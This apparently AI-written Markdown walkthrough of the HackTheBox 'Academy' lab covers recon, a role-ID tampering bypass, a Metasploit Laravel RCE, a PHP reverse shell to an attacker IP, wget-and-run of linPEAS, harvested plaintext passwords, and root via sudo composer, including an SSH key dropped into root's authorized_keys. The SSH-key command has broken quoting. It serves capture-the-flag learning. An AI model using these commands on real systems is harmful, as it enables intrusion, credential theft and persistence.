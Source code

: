Here’s your complete **HTB: Academy Walkthrough** in Markdown format with **every relevant command** grouped by stage (Recon, Foothold, User Shell, PrivEsc, Root), formatted cleanly for documentation, reuse, or future reference:

---

# 🎓 HackTheBox: Academy Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🌐 Network Scanning

```bash
nmap -p- -T4 -A 10.10.10.215
```

Edit `/etc/hosts`:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb
```

---

## 📁 Enumeration

### [HTTP](HTTP.md) (Port 80)

```bash
gobuster dir --url http://academy.htb/ -w /usr/share/wordlists/dirb/common.txt
```

- Discovered: `admin.php`
- Registered an account on the site
- Intercepted POST with Burp Suite and modified:

```http
POST /register
...
roleid=1
```

Access:

```http
http://academy.htb/admin.php
```

From the admin panel, discovered subdomain:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb dev-staging-01.academy.htb
```

---

## 💥 Exploitation

### Laravel RCE (CVE-2018–15133)

Check Laravel version hint from `.env` at `dev-staging-01.academy.htb`:

```bash
# Manually visit:
http://dev-staging-01.academy.htb
```

Run Metasploit:

```bash
msfconsole
search laravel

use exploit/unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.10.10.215
set VHOST dev-staging-01.academy.htb
set LHOST <your-tun0-IP>
run
```

Spawn TTY shell:

```bash
/usr/bin/php -r '$sock=fsockopen("10.10.16.9",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🧑‍💻 User: `cry0l1t3`

### Find .env file & Password

```bash
find / -type f -name .env 2>/dev/null
cat /var/www/html/academy/.env
# or
cat /var/www/html/htb-academy-dev-01/.env
```

Discovered credentials:

```plaintext
mySup3rP4s5w0rd!!
```

Login as `cry0l1t3` via SSH:

```bash
ssh cry0l1t3@10.10.10.215
id
cat user.txt
```

---

## 🧑 User: `mrb3n`

### Enumerate with linPEAS

On Kali:

```bash
cd ~/Downloads
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://10.10.16.9:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Find credentials manually:

```bash
cd /var/log/audit
cat * | grep 'comm="su"'
# Extract the HEX from `data=` and decode to ASCII
```

Switch to user:

```bash
su mrb3n
# Password: mrb3n_Ac@d3my!
```

---

## 👑 Privilege Escalation to Root

### Sudo Check

```bash
sudo -l
```

Output:

```
(mrb3n) NOPASSWD: /usr/bin/composer
```

### GTFOBins: Composer to Root

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Alternative (SSH Key Drop):

```bash
TF=$(mktemp -d)
echo '{"scripts":{"ssh":"echo 'ssh-ed25519 AAAA...yourkey... user@host' >> /root/.ssh/authorized_keys"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script ssh

# Then from Kali:
ssh -i ~/.ssh/id_rsa root@10.10.10.215
```

### Read Root Flag

```bash
cd /root
cat root.txt
```

---

## ✅ Summary

| Stage            | User         | Method                                             |
|------------------|--------------|----------------------------------------------------|
| Foothold         | `www-data`   | Laravel RCE + admin role bypass                    |
| User             | `cry0l1t3`   | `.env` file password reuse                         |
| Lateral Movement | `mrb3n`      | Audit log credential leak (linPEAS or manual grep) |
| Root             | `root`       | Composer abuse (GTFOBins)                          |

